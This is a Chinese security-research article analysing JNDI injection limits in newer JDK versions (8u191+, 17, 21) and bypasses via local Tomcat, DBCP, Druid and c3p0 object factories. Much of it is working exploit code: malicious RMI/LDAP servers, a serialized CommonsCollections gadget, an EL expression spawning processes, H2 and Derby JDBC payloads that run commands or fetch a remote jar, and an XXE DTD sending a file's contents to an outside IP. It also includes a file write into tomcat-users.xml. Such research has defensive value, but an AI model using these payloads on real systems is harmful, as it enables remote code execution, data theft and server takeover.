# JDK 高版本下 JNDI 注入深度剖析-先知社区

> **来源**: https://xz.aliyun.com/news/17638  
> **文章ID**: 17638

---

# JDK 高版本下 JNDI 注入深度剖析

## JDK 高版本 JNDI 注入限制

### rmi 协议限制

测试 poc

```
import javax.naming.Context;  
import javax.naming.InitialContext;  
  
public class Client {  
    public static void main(String[] args) throws Exception {  
        String uri = "rmi://localhost:1098/Object";  
        Context ctx = new InitialContext();  
        ctx.lookup(uri);  
    }  
}
```

直接定位到 `RegistryContext#decodeObject` 方法，看到在调用 `NamingManaget.getObjectInstance` 方法前有个 if 条件判断，如果符合这三个 if 条件就会抛出异常，而 jdk 高版本中默认 trustURLCodebase 为 false，



然后如果 ref 是个远程类的话 `ref.getFactoryClassLocation()` 返回值就不为空了，跟进看看



这个值是在 rmi 服务端设置的，



所以最后就会抛出异常，无法调用到 `NamingManaget.getObjectInstance` 方法，也就没有后续的远程类加载的。

### ldap 协议限制

```
package org.example;  
  
import javax.naming.InitialContext;  
  
public class testjndi{  
    public static void main(String[]args) throws Exception{  
        String string = "ldap://localhost:9999/BS";  
        InitialContext initialContext = new InitialContext();  
        initialContext.lookup(string);  
    }  
}
```

定位到 `c_lookup`，调用了 `DirectoryManager.getObjectInstance()` 方法



跟进 `getObjectFactoryFromReference` 方法，



看到同样进行了远程类加载，然后实列化，



跟进 laodClass，在高版本中 `com.sun.jndi.ldap.object.trustURLCodebase` 为 false，而这个 TRUST\_URL\_CODE\_BASE 就是赋的 `com.sun.jndi.ldap.object.trustURLCodebase` 的值，所以最后也不能成功加载远程类



## JDK 高版本中 JNDI 绕过

### ladp 协议绕过

#### jdk17

上面看到因为 `com.sun.jndi.ldap.object.trustURLCodebase` 为 false，所以无法进行远程类加载。但其实在调用 `DirectoryManager.getObjectInstance()` 方法前， `c_lookup` 中还调用了 `Obj.decodeObject` 方法，



跟进看到调用了 deserializeObject 方法，有个 `if (!VersionHelper.isSerialDataAllowed())` 条件，不过在 jdk17 中是满足的，继续跟进



最后进行了反序列化，



所以最后可以通过反序列化来绕过高版本 jdk 进行 jndi 注入。

需要存在可用的 gadget ，这里拿 cc6 来测试，LADP Server

```
package org.example;  
  
import com.unboundid.ldap.listener.InMemoryDirectoryServer;  
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;  
import com.unboundid.ldap.listener.InMemoryListenerConfig;  
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;  
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;  
import com.unboundid.ldap.sdk.Entry;  
import com.unboundid.ldap.sdk.LDAPResult;  
import com.unboundid.ldap.sdk.ResultCode;  
  
import javax.net.ServerSocketFactory;  
import javax.net.SocketFactory;  
import javax.net.ssl.SSLSocketFactory;  
import java.net.InetAddress;  
import java.net.URL;  
import java.util.Base64;  
  
public class LDAP_BS {  
    private static final String LDAP_BASE = "dc=example,dc=com";  
  
    public static void main ( String[] tmp_args ) {  
        String[] args=new String[]{"http://127.0.0.1/#BS"};  
        int port = 9999;  
  
        try {  
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);  
            config.setListenerConfigs(new InMemoryListenerConfig(  
                    "listen", //$NON-NLS-1$  
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$  
                    port,  
                    ServerSocketFactory.getDefault(),  
                    SocketFactory.getDefault(),  
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));  
  
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[0])));  
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);  
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$  
            ds.startListening();  
  
        }  
        catch ( Exception e ) {  
            e.printStackTrace();  
        }  
    }  
  
    private static class OperationInterceptor extends InMemoryOperationInterceptor {  
  
        private URL codebase;  
  
        public OperationInterceptor ( URL cb ) {  
            this.codebase = cb;  
        }  
  
        @Override  
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {  
            String base = result.getRequest().getBaseDN();  
            Entry e = new Entry(base);  
            try {  
                sendResult(result, base, e);  
            }  
            catch ( Exception e1 ) {  
                e1.printStackTrace();  
            }  
        }  
  
        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws Exception {  
            e.addAttribute("javaClassName", "foo");  
            //getObject获取Gadget  
            e.addAttribute("javaSerializedData", Base64.getDecoder().decode("rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IANG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5rZXl2YWx1ZS5UaWVkTWFwRW50cnmKrdKbOcEf2wIAAkwAA2tleXQAEkxqYXZhL2xhbmcvT2JqZWN0O0wAA21hcHQAD0xqYXZhL3V0aWwvTWFwO3hwdAADYWJjc3IAKm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5tYXAuTGF6eU1hcG7llIKeeRCUAwABTAAHZmFjdG9yeXQALExvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNoYWluZWRUcmFuc2Zvcm1lcjDHl+woepcEAgABWwANaVRyYW5zZm9ybWVyc3QALVtMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwdXIALVtMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLlRyYW5zZm9ybWVyO71WKvHYNBiZAgAAeHAAAAAEc3IAO29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5Db25zdGFudFRyYW5zZm9ybWVyWHaQEUECsZQCAAFMAAlpQ29uc3RhbnRxAH4AA3hwdnIAEWphdmEubGFuZy5SdW50aW1lAAAAAAAAAAAAAAB4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuSW52b2tlclRyYW5zZm9ybWVyh+j/a3t8zjgCAANbAAVpQXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtMAAtpTWV0aG9kTmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sAC2lQYXJhbVR5cGVzdAASW0xqYXZhL2xhbmcvQ2xhc3M7eHB1cgATW0xqYXZhLmxhbmcuT2JqZWN0O5DOWJ8QcylsAgAAeHAAAAACdAAKZ2V0UnVudGltZXB0AAlnZXRNZXRob2R1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAJ2cgAQamF2YS5sYW5nLlN0cmluZ6DwpDh6O7NCAgAAeHB2cQB+ABxzcQB+ABN1cQB+ABgAAAACcHB0AAZpbnZva2V1cQB+ABwAAAACdnIAEGphdmEubGFuZy5PYmplY3QAAAAAAAAAAAAAAHhwdnEAfgAYc3EAfgATdXEAfgAYAAAAAXQABGNhbGN0AARleGVjdXEAfgAcAAAAAXEAfgAfc3EAfgAAP0AAAAAAAAx3CAAAABAAAAAAeHh0AANlZWV4"));  
            result.sendSearchEntry(e);  
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));  
        }  
    }  
}
```

成功执行



#### jdk21

而在更高版本的 jdk 21 中就会报错，



前面在 `Obj.decodeObject` 方法中看到这里在反序列化前有个 if 判断



跟进 `isSerialDataAllowed()` 方法，在 jdk21 属性 trustSerialData 默认就是 false 了，



所以在 jdk21 中无法用该方法进行绕过，不过可以参考这篇文章进行绕过：<https://vidar-team.feishu.cn/docx/ScXKd2ISEo8dL6xt5imcQbLInGc>

### rmi 协议绕过

上面在 rmi 协议限制中看到 jdk 高版本中默认 trustURLCodebase 为 false，这个就不用考虑了，所以想要 if 条件不满足就只能考虑让 `ref.getFactoryClassLocation()` 返回值为 null。这个在实列化ResourceRef 时让参数 factrylocation 为 null 就行了。

那么现在不能远程加载还能怎么利用呢？

接着调用到 `NamingManager.getObjectInstance`，在 `getObjectFactoryFromReference` 中进行了远程类加载



跟进看到先会根据工厂类名字进行本地加载



加载完成后 clas 不为 null，也就不会触发后面的远程加载了，最后直接返回 factory 对象，



然后利用点就在这里会调用工厂类的 getObjectInstance 方法，



所以接下来就是找可以利用的工厂类，这个工厂类还需要实现 `ObjectFactory` 接口，因为上面看到在返回 `Factory` 类时进行了强制类型转换将其转换为了 `ObjectFactory` 类型，然后 `getObjectInstance` 方法可以进行恶意利用。

#### BeanFactory

`org.apache.naming.factory.BeanFactory` 就是满足条件的类之一，并由于该类存在于 Tomcat8 依赖包中，攻击面和成功率还是比较高的。

下面根据 poc 来进行调试分析，

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;  
import org.apache.naming.ResourceRef;  
  
import javax.naming.Reference;  
import javax.naming.StringRefAddr;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class jndibypass {  
    public static void main(String[] args) throws Exception{  
        System.out.println("[*]Evil RMI Server is Listening on port: 1099");  
        Registry registry = (Registry) LocateRegistry.createRegistry( 1099);  
  
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",  
                true, "org.apache.naming.factory.BeanFactory", null);  
        ref.add(new StringRefAddr("forceString", "x=eval"));  
        ref.add(new StringRefAddr("x", """.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/bash','-c','/Applications/Calculator.app/Contents/MacOS/Calculator']).start()")"));  
  
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);  
        registry.bind("Object", referenceWrapper);  
    }  
}
```

最后会调用到 `BeanFactory#getObjectInstance` 方法，先判断 obj 是不是 ResourceRef 类实列 (这就是为什么我们在恶意 RMI 服务端中构造 Reference 类实例的时候必须要用 Reference 类的子类 ResourceRef 类来创建实例)，接着就是一大堆赋值的东西了，



先调用 `tcl.loadClass(beanClassName);` 让 `beanClass` 为 `javax.el.ELProcessor` 对象，实例化该类并获取其中的 `forceString` 类型的内容，也就是 `x=eval` 内容，


继续往下调试可以看到，查找 `forceString` 的内容中是否存在”=”号，不存在的话就调用属性的默认 setter 方法，存在的话就取键值、其中键是属性名而对应的值是其指定的 setter 方法。如此，之前设置的 `forceString` 的值就可以强制将 x 属性的 setter 方法转换为调用我们指定的 ELProcessor.eval() 方法了



接着是多个 do while 语句来遍历获取 ResourceRef 类实例 addr 属性的元素，当获取到 addrType 为 x 的元素时退出当前所有循环，然后调用 `getContent()` 方法来获取 x 属性对应的 contents 即恶意表达式。

这里就是恶意 RMI 服务端中 ResourceRef 类实例添加的第二个元素，获取到类型为 x 对应的内容为恶意表达式后，从前面的缓存 forced 中取出 key 为 x 的值即 javax.el.ELProcessor 类的 eval()方法并赋值给 method 变量，最后就是通过 method.invoke()即反射调用的来执行。

简单说就是可以调用一个类的方法，然后这个方法参数是一个 string 型就能进行利用。所以除了这里的 `javax.el.ELProcessor.eval()` 能利用的其实还有很多，如 `groovy.lang.GroovyShell#evaluate`， `org.yaml.snakeyaml.Yaml().load(String)`， `com.thoughtworks.xstream.XStream().fromXML(String)` 等等，主要还是看依赖选择。

#### MemoryUserDatabaseFactory

`org.apache.catalina.users.MemoryUserDatabaseFactory` 同样是一个 Tomcat 的工厂类，跟进这个类的 `getObjectInstance` 方法，先判断 ResourceRef 是不是为 `org.apache.catalina.UserDatabase`


接着先实例化一个 `MemoryUserDatabase` 对象然后从 Reference 中取出 pathname、readonly 这两个最主要的参数并调用 setter 方法赋值。


赋值完成会先调用 `open()` 方法，如果 `readonly=false` 那就会调用 `save()` 方法。



先跟进 open() 方法，连接给的 pathName 地址然后解析返回的 xml，



那么这里显然可以进行 xxe，利用 oob xxe 来进行文件读取，

test.dtd

```
<!ENTITY % file SYSTEM "E:/tmp/flag.txt">  
<!ENTITY % define_http "<!ENTITY &#37; send_http SYSTEM 'http://47.109.156.81:6666/%file;'>">
```

test.xml

```
<?xml version="1.0" encoding="utf-8" ?>  
<!DOCTYPE xdsec[  
        <!ENTITY % include SYSTEM "http://47.109.156.81:6789/test.dtd" >  
        %include;  
        %define_http;%send_http;  
        ]>  
<books></books>
```

poc，

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;  
import org.apache.naming.ResourceRef;  
  
import javax.naming.StringRefAddr;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class jndibypass {  
    public static void main(String[] args) throws Exception{  
        System.out.println("[*]Evil RMI Server is Listening on port: 1099");  
        Registry registry = (Registry) LocateRegistry.createRegistry( 1099);  
  
        ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",  
                true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);  
  
        ref.add(new StringRefAddr("pathname", "http://47.109.156.81:4567/test.xml"));  
  
  
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);  
        registry.bind("Object", referenceWrapper);  
    }  
}
```

最后成功读取到 `E:/tmp/flag.txt` 文件

  
  


除了 xxe，这个工厂类还能进行写文件，看到在解析 XML 前有这样一段代码，

```
digester.addFactoryCreate("tomcat-users/group",  
        new MemoryGroupCreationFactory(this), true);  
digester.addFactoryCreate("tomcat-users/role",  
        new MemoryRoleCreationFactory(this), true);  
digester.addFactoryCreate("tomcat-users/user",  
        new MemoryUserCreationFactory(this), true);
```

这里分别根据xml解析结果给 `MemoryUserDatabase#groups,MemoryUserDatabase#users,MemoryUserDatabase#roles` 填充数据，以 users 为例，



首先从 `org.apache.catalina.users.MemoryUserCreationFactory#createObject` 中取出了 username，password 元素。然后调用 `org.apache.catalina.users.MemoryUserDatabase#createUser` ，这时 MemoryUser 对象被添加到了 users 对象里，



接着出去调用到 `save()` 方法。



进入 `save()` 方法的主逻辑代码需要先经过 `isWriteable()==true` 的判断。



由于需要控制文件写入内容，所以必须要让 pathname 是一个远程URL，但是这样拼接后就会导致目录一定不存在，比如 `CATALINA_BASE_PROP=/usr/apache-tomcat-8.5.73/`，`pathname=http://127.0.0.1:8888/../../conf/tomcat-users.xml`，拼接得到 `/usr/apache-tomcat-8.5.73/http:/127.0.0.1:8888/../../conf/tomcat-users.xml`。

getParentFile 获取到的是 `/usr/apache-tomcat-8.5.73/http:/127.0.0.1:8888/../../conf/`

在 Windows 下这样没问题，但如果是 Linux 系统的话，目录跳转符号前面的目录是必须存在的，所以还需要利用 `BeanFactory` 来进行目录创建。

参考：<https://tttang.com/archive/1405/#toc_rce> 和 <https://xz.aliyun.com/news/12573>

下面直接用浅蓝师傅 poc 进行目录创建

```
private static ResourceRef tomcatMkdirFrist() {
    ResourceRef ref = new ResourceRef("org.h2.store.fs.FileUtils", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    ref.add(new StringRefAddr("forceString", "a=createDirectory"));
    ref.add(new StringRefAddr("a", "../http:"));
    return ref;
}
private static ResourceRef tomcatMkdirLast() {
    ResourceRef ref = new ResourceRef("org.h2.store.fs.FileUtils", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    ref.add(new StringRefAddr("forceString", "a=createDirectory"));
    ref.add(new StringRefAddr("a", "../http:/127.0.0.1:8888"));
    return ref;
}
```

在存在目录后 isWriteable() 的校验也就通过了。然后前面这部分会先把事先在 `open()` 方法就解析好的 `users、groups、roles` 都写入到 pathnameNew 这个文件里。



最后实现文件写入。同样给个浅蓝师傅的 poc，

```
private static ResourceRef tomcatManagerAdd() {
    ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
            true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
    ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8888/../../conf/tomcat-users.xml"));
    ref.add(new StringRefAddr("readonly", "false"));
    return ref;
}
```

#### BasicDataSourceFactory

`org.apache.commons.dbcp2.BasicDataSourceFactory` 是 commons-dbcp2 依赖的类，跟进其 `getObjectInstance` 方法



看到在最后调用了 `createDataSource` 方法，跟进，看到就是获得 url，name，passwd 等信息进行要进行数据连接，在其最后调用了 `getLogWriter()` 方法，



接着又调用了 `createDataSource`，



这个方法就是常见的创建数据库连接，



还是简单看看其到底是怎么进行触发连接的。



继续跟进

  


最后在 `createConnection()` 进行了 jdbc 连接，



这里拿 h2 数据库来实验，构造 exp，

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;  
//import org.apache.naming.ResourceRef;  
  
import javax.naming.Reference;  
import javax.naming.StringRefAddr;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class jndibypass {  
    public static void main(String[] args) throws Exception{  
        System.out.println("[*]Evil RMI Server is Listening on port: 1099");  
        Registry registry = (Registry) LocateRegistry.createRegistry( 1099);  
  
        Reference ref = new Reference("javax.sql.DataSource","org.apache.commons.dbcp2.BasicDataSourceFactory",null);  
        String JDBC_URL="jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON
" +  
                "INFORMATION_SCHEMA.TABLES AS $$ void Unam4exp() throws Exception{Runtime.getRuntime().exec("calc")\;}$$";  
        ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));  
        ref.add(new StringRefAddr("url",JDBC_URL));  
        ref.add(new StringRefAddr("username","root"));  
        ref.add(new StringRefAddr("password","password"));  
        ref.add(new StringRefAddr("initialSize","1"));  
  
  
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);  
        registry.bind("Object", referenceWrapper);  
    }  
}
```

执行弹出计算机



当然能打 jdbc 的工厂类有很多，除了 `org.apache.commons.dbcp2.BasicDataSourceFactory` 还有 `org.apache.commons.dbcp.BasicDataSourceFactory`， `org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory`，`org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory`， `org.apache.tomcat.jdbc.pool.DataSourceFactory`，`com.alibaba.druid.pool.DruidDataSourceFactory`，

其中 `com.alibaba.druid.pool.DruidDataSourceFactory` 比较特别，其在连接数据库的时候还可以执行 sql 语句，这里拿 Apache Derby 数据库来看。

Apache Derby 除了在 url 处设置参数进行反序列化外还可以通过 sql 语句加载 jar 包来进行命令执行，

```
CALL SQLJ.INSTALL_JAR('http://host.docker.internal:8000/Evil.jar', 'APP.Sample4', 0);
CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath','APP.Sample4');
CREATE PROCEDURE SALES.TOTAL_REVENUES() PARAMETER STYLE JAVA READS SQL DATA LANGUAGE JAVA EXTERNAL NAME 'testShell4.exec';
CALL SALES.TOTAL_REVENUES();
```

在 `DruidDataSourceFactory#getObjectInstance` 方法最后会进入到 `createPhysicalConnection(url, physicalConnectProperties);` 进行 jdbc 连接，其实在下面还有个初始化 sql 语句的操作，跟进一下



继续跟进其重载的方法，



发现存在 sql 语句执行，



再简单找找 sql 语句的控制地方，最后发现 initConnectionSqls 参数就是要执行的 sql 语句



poc

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class DerbyEvilServer {
    public static void main(String[] args) {
        try{
            Registry registry = LocateRegistry.createRegistry(1099);
            Reference ref = new Reference("javax.sql.DataSource","com.alibaba.druid.pool.DruidDataSourceFactory",null);
            String JDBC_URL = "jdbc:derby:dbname;create=true";
            String JDBC_USER = "root";
            String JDBC_PASSWORD = "password";

            ref.add(new StringRefAddr("driverClassName","org.apache.derby.jdbc.EmbeddedDriver"));
            ref.add(new StringRefAddr("url",JDBC_URL));
            ref.add(new StringRefAddr("username",JDBC_USER));
            ref.add(new StringRefAddr("password",JDBC_PASSWORD));
            ref.add(new StringRefAddr("initialSize","1"));
            ref.add(new StringRefAddr("initConnectionSqls","CALL SQLJ.INSTALL_JAR('http://host.docker.internal:8000/Evil.jar', 'APP.Sample4', 0);CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath','APP.Sample4');CREATE PROCEDURE SALES.TOTAL_REVENUES() PARAMETER STYLE JAVA READS SQL DATA LANGUAGE JAVA EXTERNAL NAME 'testShell4.exec';CALL SALES.TOTAL_REVENUES();"));
            ref.add(new StringRefAddr("init","true"));
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);

            registry.bind("pop",referenceWrapper);
        }
        catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

#### GenericNamingResourcesFactory\*

`org.apache.tomcat.jdbc.naming.GenericNamingResourcesFactory(tomcat-jdbc.jar)`，看其 `getObjectInstance` 方法在最后调用了 setProperty 方法，



跟进这个方法，看到可以进行 setter 方法调用，虽然有一些条件，



那么该怎么利用呢，这就要介绍一个特殊的类 `org.apache.commons.configuration2.SystemConfiguration(commons-configuration2-.jar)`  或者  `org.apache.commons.configuration.SystemConfiguration(commons-configuration-*.jar)` 。

它的 `setSystemProperties` 方法可以设置系统属性，也就是

```
System.setProperty()
```

`setSystemProperties` 方法接收一个String类型的参数，叫做 `fileName`，但是实际上最后它会被构造成一个URL对象，所以可以传入的不仅是一个本地文件，也可以是一个网络请求。所以可以在 vps 上放一个文件，进行属性修改。

这里考虑把 trustURLCodebase 属性设为 true ，

```
com.sun.jndi.ldap.object.trustURLCodebase=true
com.sun.jndi.rmi.object.trustURLCodebase=true
```

EXP，

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;  
import org.apache.naming.ResourceRef;  
  
import javax.naming.Reference;  
import javax.naming.StringRefAddr;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class jndibypass {  
    public static void main(String[] args) throws Exception{  
        System.out.println("[*]Evil RMI Server is Listening on port: 1099");  
        Registry registry = (Registry) LocateRegistry.createRegistry( 1099);  
  
        Reference ref = new Reference("org.apache.commons.configuration2.SystemConfiguration","org.apache.tomcat.jdbc.naming.GenericNamingResourcesFactory",null);  
        ref.add(new StringRefAddr("systemProperties","http://47.109.156.81:6666/systemProperties"));  
  
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);  
        registry.bind("Object", referenceWrapper);  
    }  
}
```

进行 jndi 注入

```
import javax.naming.Context;  
import javax.naming.InitialContext;  
  
public class testjndi {  
    public static void main(String[] args) throws Exception {  
        String uri = "rmi://localhost:1099/Object";  
        Context context = new InitialContext();  
        context.lookup(uri);  
        String url2="rmi://localhost:1099/hello";  
        context.lookup(url2);  
    }  
}
```

第一次 jndi 注入显示成功修改了，



但第二次远程类加载时还是失败了，简单看看，其实是有两个原因。在第二次 jndi 注入的时候，发现还是为 false



因为第一次时才会调用这里把 `com.sun.jndi.rmi.object.trustURLCodebase` 的值赋值给 `trustURLCodebase`，后面就算把 `com.sun.jndi.rmi.object.trustURLCodebase` 设置为 true 也没有用了，



而且就算这里过了，最后远程加载时 loadclass 的属性 TRUST\_URL\_CODE\_BASE 还是过不了。

那么再重新找个恶意的 setter 方法就行了，比如 c3p0 中的 setUserOverridesAsString 方法，该方法可以进行反序列化，exp

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;  
import org.apache.naming.ResourceRef;  
  
import javax.naming.Reference;  
import javax.naming.StringRefAddr;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class jndibypass {  
    public static void main(String[] args) throws Exception{  
        System.out.println("[*]Evil RMI Server is Listening on port: 1099");  
        Registry registry = (Registry) LocateRegistry.createRegistry( 1099);  
  
        Reference ref = new Reference("com.mchange.v2.c3p0.WrapperConnectionPoolDataSource","org.apache.tomcat.jdbc.naming.GenericNamingResourcesFactory",null);  
        ref.add(new StringRefAddr("userOverridesAsString", hexexp));  //hexexp替换为恶意hex payload
  
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);  
        registry.bind("Object", referenceWrapper);  
    }  
}
```

看到会由 setProperty 方法调用到 `setuserOverridesAsString` ，后面就不用说了。



同样能调用到 setter 方法的 factory 也有很多，比如 `com.mchange.v2.naming.JavaBeanObjectFactory`，`org.apache.naming.factory.BeanFactory`，

来简单看看 `BeanFactory#getObjectInstance`，再 tomcat 8.5.79 中不允许设置 forceString 属性



但是接着向下走，遍历Reference中的所有值，若Reference中包含的值在bean class中存在有对应的属性值，这里将会调用 `pda[i].getWriteMethod()` 获取 setter 方法



最后会反射调用该setter方法，



至于选择哪个 fatory 其实还是要根据依赖的实际情况来判断。

## 总结

其实能利用的 factory 肯定还有很多，只是要看依赖常不常见。而在 jdk21 中用的是 `NamingManagerHelper.getObjectInstance` 方法，多了个 `ObjectFactoriesFilter::checkRmiFilter` 参数，只允许只允许 `"jdk.naming.rmi/com.sun.jndi.rmi.**;!*"` 开头的包名，这也就导致了无法利用这些第三方依赖的恶意 fatory 进行绕过了。

​

​

参考：<https://xz.aliyun.com/news/16156>

参考：<https://tttang.com/archive/1405/>

参考：<https://xz.aliyun.com/news/12573>
